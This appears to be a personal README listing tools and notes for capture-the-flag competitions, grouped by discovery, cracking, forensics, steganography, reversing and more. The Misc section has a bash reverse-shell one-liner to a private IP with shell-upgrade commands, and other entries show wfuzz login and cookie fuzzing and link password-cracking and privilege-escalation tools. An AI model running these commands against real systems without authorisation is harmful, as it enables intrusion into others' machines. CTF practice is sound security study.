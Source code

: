 # CTF Tool list

This repo is intended to serve as a list of tools that I've found useful during CTFs and any notes that I've got to go with them.

## Discovery

##### Nmap
Get versions
`nmap -sC -sV <target>`
Basic scan all ports
`nmap -p- <target>`


##### wfuzz
Fuzz urls
`$ wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ.php`
Fuzz post requests
`$ wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"`
Fuzz Cookies
`$ wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ`

##### Gobuster

## Web
Looks for `sitemap.xml` or `robots.txt`

##### Burpsuite
##### SQLMap


## Cracking

##### John the ripper
https://countuponsecurity.files.wordpress.com/2016/09/jtr-cheat-sheet.pdf
##### Hydra
https://github.com/frizb/Hydra-Cheatsheet
##### PadBuster
Used to execute and oracle padding attack

##### Hashcat
https://github.com/frizb/Hashcat-Cheatsheet

## pwn

##### [pwntools](https://github.com/Gallopsled/pwntools)

##### ROP Gadet

## Forensics

##### strings
##### Foremost
##### Bin Walk

##### Volatility
The Volatility Framework isfor the
extraction of digital artifacts from volatile memory (RAM) samples.

https://github.com/volatilityfoundation/volatility
https://github.com/volatilityfoundation/community

## Steg

##### Exiftool
##### Stegsolve
##### [StegCracker](https://github.com/Paradoxis/StegCracker)
Bruteforce steg hide with a wordlist 
##### [steghide](http://steghide.sourceforge.net/)
##### [zsteg](https://github.com/zed-0xff/zsteg)
detect stegano-hidden data in PNG & BMP
##### [jsteg](https://github.com/lukechampine/jsteg)
Lsb stegonography for JPEG
##### pngcheck
##### [stego-toolkit](https://github.com/DominicBreuker/stego-toolkit)
Docker image that does stegonography magic
##### Online tools
https://stylesuxx.github.io/steganography/


## Network
##### Wireshark
##### NetworkMiner
Finds files and other things in pcap files, requires mono

## Reversing

##### Radare
https://github.com/zxgio/r2-cheatsheet/blob/master/r2-cheatsheet.pdf

##### readelf

##### [checksec](https://github.com/slimm609/checksec.sh)
##### angr
##### [z3](https://github.com/Z3Prover/z3)
##### [libc-database](https://github.com/niklasb/libc-database)
https://libc.rip/

## Misc

##### Reverse Shell
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`stty raw -echo`


##### Linux enumeration
[Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
[Linenum](https://github.com/rebootuser/LinEnum)

##### Wordlists
[Rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)
[SecLists](https://github.com/danielmiessler/SecLists)

###### Cewl 
Wordlist generator

##### Regripper
Windows registery extraction tool, requires wine

## Links
##### [CyberChef](https://gchq.github.io/CyberChef/)
##### [Virus total](https://www.virustotal.com/)
##### [Have I been Pwned](https://haveibeenpwned.com/)

